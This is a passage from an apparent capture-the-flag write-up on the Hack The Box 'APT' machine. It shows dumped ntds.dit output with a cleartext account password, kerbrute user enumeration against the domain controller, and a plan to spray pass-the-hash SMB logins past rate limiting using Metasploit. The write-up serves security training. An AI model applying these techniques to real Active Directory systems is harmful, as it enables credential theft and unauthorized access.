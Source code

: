 ```sh
[*] ClearText password from ntds.dit 
APT$:CLEARTEXT:4[%fo'zG`&BhR3cP[)U2NVS\LEYO/&^)<9xj6%#9\\?uJ4YPb`DRK" IES2fXK"f,X(Ql*fg0RfRq=!,BeAVFt^EVRR-L)VaTjv/QG9=o;G@g>Vab-UYc Yd
[*] Cleaning up... 
```

Those are a lot of users and user hashes, and we're not even sure if those are valid users to begin with, to verify all existing users on the AD we can use some bash tricks cut out everything other than usernames and then use kerbrute to verify existing users.

```sh
utopia@utopia: smb » cat adhashes.txt | cut -d ":" -f 1 |sort -u > adusers.txt # Redirect stdout to a file which contains all the users
utopia@utopia: smb » /opt/kerbrute userenum -d htb.local adusers.txt --dc apt.htb.local -t 100           130 [06:20:02]

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/29/21 - Ronnie Flathers @ropnop

2021/03/29 06:20:03 >  Using KDC(s):
2021/03/29 06:20:03 >   apt.htb.local:88

2021/03/29 06:20:08 >  [+] VALID USERNAME:       Administrator@htb.local
2021/03/29 06:20:13 >  [+] VALID USERNAME:       APT$@htb.local
2021/03/29 06:20:49 >  [+] VALID USERNAME:       henry.vinson@htb.local
2021/03/29 06:21:50 >  Done! Tested 2001 usernames (3 valid) in 106.756 seconds

```

Now that we've enumerated the existing users on the system, we can fixate our attack vectors on them. This was also the stage where I really struggled as I didn't really know what to do, I was sure it had something to do with pass-the-hash but I wasn't really sure, and also fail2ban / rate limiting was enabled on the system and after you reach a certain amount of authentication fails, you get blocked from the system for about 5 minutes or so. But, turns out the way to go is pass the hash, but to actually know which hash is the valid one, you need to brute force SMB using the list of hashes you've gathered while also doing that all your SMB authentication attempts with the hashes happens every 5 minutes consecutively. This took me about 5 days or so if I'm being honest, this process took a lot of waiting and patience, and luckily I had other CTFs and school to occupy my mind while I was waiting for this. There are many ways to do this, but I've found the most stable one is using a metasploit module, you can also try using CME but the latest version is very bad with dealing with IPv6 addresses. 

```
utopia@utopia: opt » msfconsole                                                                              [[58/9915]
[-] No local database connected, meaning some Metasploit features will not be available. A full list of the affected fe
atures & database setup instructions can be found here: https://github.com/rapid7/metasploit-framework/wiki/msfdb:-Data
base-Features-&-How-to-Set-up-a-Database-for-Metasploit                                                                
[!] The following modules could not be loaded!..\                                                                      
[!]     /opt/metasploit-framework/modules/auxiliary/gather/office365userenum.py                                        
[!] Please see /home/utopia/.msf4/logs/framework.log for details.                                                      
                                                                                                                       
                                                                                                                       
```